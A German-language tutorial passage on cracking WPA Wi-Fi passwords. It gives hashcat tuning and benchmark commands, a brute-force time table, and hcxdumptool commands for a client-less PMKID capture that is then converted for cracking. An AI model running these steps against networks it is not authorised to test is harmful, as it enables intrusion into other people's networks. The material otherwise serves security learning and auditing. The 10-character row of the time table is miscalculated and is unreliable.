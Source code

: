 **hashcat Tuning:**
```bash
# Workload erhöhen (Desktop = -w 3, Server = -w 4)
hashcat -m 22000 -a 0 -w 3 handshake.hc22000 wordlist.txt

# Optimized Kernel
hashcat -m 22000 -a 0 -O handshake.hc22000 wordlist.txt

# Beide kombiniert (maximum Speed)
hashcat -m 22000 -a 0 -w 4 -O handshake.hc22000 wordlist.txt
```

**Benchmark:**
```bash
# Teste deine Hardware
hashcat -b -m 22000

# Output zeigt H/s (Hashes per Second)
# RTX 3080: ~500 kH/s
# RTX 4090: ~1000 kH/s
# CPU: ~5-10 kH/s
```

**Zeitschätzung:**

```
Passwort-Länge | Charset      | Kombinationen | Zeit @ 500kH/s
8 Zeichen      | lowercase    | 26^8 = 208B   | ~133 Stunden
8 Zeichen      | lower+digits | 36^8 = 2.8T   | ~1627 Stunden
8 Zeichen      | all          | 95^8 = 6.6Q   | ~420 Jahre
10 Zeichen     | all          | 95^10 = 59.8Q | ~380.000 Jahre
```

**Fazit:**
- Schwache Passwörter: Minuten bis Stunden
- Starke Passwörter (12+ Zeichen, komplex): Praktisch unknackbar

### PMKID Attack (kein Handshake nötig!)

**Neu seit 2018: PMKID-basierter Angriff**

**Was ist PMKID?**
- Teil des ersten EAPOL-Frames (Robust Security Network)
- AP sendet PMKID = HMAC-SHA1-128(PMK, "PMK Name", AP_MAC, Client_MAC)
- Enthält PMK-Ableitung
- **Kann ohne Client-Verbindung captured werden!**

#### Capture mit hcxdumptool

```bash
# Installiere hcxdumptool
apt-get install hcxdumptool

# Monitor Mode
ip link set wlan0 down
iw dev wlan0 set type monitor
ip link set wlan0 up

# Capture starten (zielt auf PMKID)
hcxdumptool -i wlan0 -o pmkid.pcapng --enable_status=1

# Läuft und captured automatisch
# Warte 5-10 Minuten
# Ctrl+C zum Stoppen

# Konvertiere für hashcat
hcxpcapngtool -o pmkid.hc22000 pmkid.pcapng

```